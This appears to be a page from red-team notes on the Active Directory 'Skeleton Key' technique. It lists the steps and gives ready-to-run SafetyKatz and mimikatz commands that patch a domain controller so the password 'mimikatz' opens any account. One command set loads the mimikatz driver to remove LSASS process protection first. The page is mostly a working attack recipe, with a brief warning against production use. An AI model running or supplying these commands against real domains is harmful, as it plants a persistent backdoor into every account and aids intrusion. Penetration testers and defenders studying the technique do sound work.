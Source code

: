 > ⚠️ **WARNING:**
> NEVER USE ON PRODUCTION!
> 
> Resets on domain controller reboot.

# Methodology
>1. Have domain admin privileges.
>2. Patch the domain controller.
>3. Use the password `mimikatz` to access any machine with a valid username.

---

# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Inject a skeleton key on a domain controller:**
```cmd
SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
```

**If LSASS is running as a protected service, we can still use Skeleton Key but it needs the mimikatz driver ([mimidriv.sys](https://github.com/ParrotSec/mimikatz/blob/master/x64/mimidrv.sys)) on disk of the target DC:**
```cmd
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
```